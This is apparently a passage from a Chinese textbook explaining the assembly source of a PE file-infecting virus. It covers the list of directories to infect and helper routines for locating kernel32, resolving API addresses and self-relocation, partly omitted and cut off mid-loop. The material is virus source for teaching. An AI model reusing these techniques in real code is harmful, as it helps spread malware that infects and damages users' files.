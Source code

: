 ------

==以上定义了查找文件时用到的数据结构==。==其中`directories`是病毒要感染的目录列表。由于补丁程序只感染当前目录，所以目录个数变量`dwDirectoryCount`被设置为1，其设置方法如行144所示==。如果还有其他的目录需要感染，那么在这里加上目录的定义即可。记得每个目录的绝对路径必须凑齐7Fh字节，否则计算出来的`dwDirectoryCount`就是个错误的数字。如下所示，可以定义第二个目录`secondDir`：

------

```assembly
directories equ this byte
OriginDir db 7Fh dup(0) ;应用程序所在的目录
secondDir db 'c:\aa',0,79 dup(0) ;添加的第二个目录
dwDirectoryCount equ(($-directories)/7Fh)
mirrormirror db dwDirectoryCount ;目录个数
```

------

### 2.私有函数定义

==为了实施病毒传播，以及实现病毒的隐蔽特性，将PE病毒补丁代码附加到要感染的对象中，需要定义很多辅助函数，这些函数是内部私有的，由主程序调用==。

下列内部私有函数大部分都是以前介绍过的，以下内容省略许多。

------

```assembly
149 ;-----------------------------
150 ;错误Handler
152 _SEHHandler proc _lpException,_lpSEH,_lpContext,_lpDispatcher
170 ;-----------------------------
171 ;对齐
176 _align proc
189 ;------------------------------------
190 ;根据kernel32.dll中的一个地址获取它的基地址
192 _getKernelBase proc _dwKernelRetAddress
219 ;-------------------------------
220 ;获取指定字符串的API函数的调用地址
224 _getApi proc _hModule,_lpApi
292 ;---------------------
293 ;获取所有的API入口地址
294 ;---------------------
295 _getAllAPIs proc
296 pushad
297 call @F ;免去重定位
298 @@:
299 pop ebx
300 sub ebx,offset @B ;求定位基地址ebx
301 mov ebp,ebx
302
303 .repeat
304 push esi
305 mov eax,[ebx+kernel]
306 push eax
307 call _getApi
308 mov dword ptr [edi],eax
309 ;修改esi的值指向下一个函数名
310 mov al,byte ptr [esi]
311 .break.if al == 0BBh
312 .repeat
313 mov al,byte ptr [esi]
314 .if al == 0
315 inc esi
316 .break
317 .endif
318 inc esi
319 .until FALSE
```